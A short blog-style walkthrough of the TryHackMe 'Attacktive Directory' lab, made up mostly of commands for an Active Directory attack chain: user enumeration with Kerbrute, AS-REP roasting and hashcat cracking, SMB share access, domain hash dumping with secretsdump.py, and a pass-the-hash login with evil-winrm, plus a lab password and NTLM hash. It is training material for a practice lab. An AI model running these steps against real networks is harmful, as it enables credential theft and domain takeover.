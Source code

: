 ```yaml
---
title: THM Attacktive Directory
author: Yuchao
date: 2022-05-18 11:33:00 +0800
categories: [sec]
tags: [ActiveDirectory]
math: true
mermaid: true
---
```


# install Impacket

- <https://github.com/SecureAuthCorp/impacket>

```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install
```

# Installing Bloodhound and Neo4j

- <https://github.com/BloodHoundAD/BloodHound>
- <https://github.com/neo4j>

```
apt install bloodhound neo4j
```

# nmap
```
nmap -sC -sV -oA nmap.out 10.10.222.186
```

# Kerbrute
- based on Impacket

Enumerate users
```
./kerbrute_linux_amd64 userenum  -d spookysec.local --dc 10.10.156.79  /home/kali/Desktop/userlist.txt  
```

# GetNPUsers.py
- an Impacket tool
- ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. 

```
python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin
```

find hash type
- <https://hashcat.net/wiki/doku.php?id=example_hashes>

bruteforce hash
```
hashcat -m 18200 ./svcHash /home/kali/Desktop/passwordlist.txt  --force
```

# smbclient

list shares
```
smbclient --user svc-admin -L 10.10.30.17
```

connect to one share named "backup"
```
smbclient //10.10.30.17/backup --user svc-admin
```


backup@spookysec.local:backup2517860

# secretsdump.py
understanding windows hash
- <https://hunter2.gitbook.io/darthsidious/getting-started/intro-to-windows-hashes>

```
python3 secretsdump.py  backup@10.10.30.17 -just-dc
```

# pass the hash attack
- <https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack>

evil-winrm login
```
evil-winrm -i 10.10.30.17 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
